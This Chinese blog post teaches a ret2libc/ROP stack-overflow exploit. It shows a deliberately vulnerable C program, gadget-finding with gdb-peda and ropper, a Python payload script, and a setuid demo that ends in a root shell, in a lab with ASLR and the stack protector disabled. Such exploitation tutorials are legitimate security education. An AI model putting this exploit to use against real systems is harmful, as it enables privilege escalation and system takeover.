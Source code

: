 ```yaml
---
layout: blog
book: true
title:  "简单的ROP"
background: green
background-image: http://ot1cc1u9t.bkt.clouddn.com/17-7-15/78939382.jpg
date:   2018-08-28 14:43:11
category: 安全
tags:
- ROP 
---
```


- 现代栈溢出利用技术基础:ROP
- 利用signal机制的ROP技术:SROP
- 没有binary怎么办:BROP
- 劫持栈指针:Stack Pivot
- 利用动态链接绕过ASLR:ret2dll resolve、fake linkmap
- 利用地址低12bit绕过ASLR:Partial Overwrite
- 绕过stack canary:改写指针与局部变量、leak canary、overwrite canary
- 溢出位数不够怎么办:覆盖ebp,Partial Overwrite

----

## 0x01、实例

```c++
/* Compile: gcc -fno-stack-protector ret2libc.c -o ret2libc      */
/* Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space     */

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}   
```

编译后，进行下列步骤：

1.安装[gdb-peda](https://github.com/longld/peda)，然后gdb ./ret2libc->start->find "/bin/sh"，得到地址0x7ffff7b91543；

2.继续，使用p system，找到system函数的地址0x7ffff7a57590；

3.安装[ropper](https://github.com/sashs/Ropper)，然后使用ropper --file ./ret2libc --search "% ?di"，找到pop %rdi; ret;的地址0x00000000004006a3。


注意，因为我们是64位机器，默认使用的是寄存器rdi等传递参数，所以，我们需要使用rop技术，先将栈上的参数pop到寄存器rdi中，再调用system()函数。

接着，使用这三个地址，构造payload：
```python
#!/usr/bin/env python

from struct import *

buf = ""
buf += 'A'*104                          # junk
buf += pack("<Q", 0x00000000004006a3)       # pop rdi; ret;
buf += pack("<Q", 0x7ffff7b91543)       # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a57590)       # address of system()
#print buf
f = open("in.txt", "w")
f.write(buf)
```

执行该脚本，生成payload文件in.txt。

给./ret2libc添加权限:

```
sudo chown root ./ret2libc
sudo chmod 4755 ./ret2libc
```

执行：
```
➜  Desktop (cat in.txt ; cat) | ./ret2libc
Try to exec /bin/sh
Read 128 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(
whoami
root
```

成功获得root shell。

![Shell](https://raw.githubusercontent.com/catsay217994/catsay217994.github.io/master/_posts/security_image/rop.png "ROP")
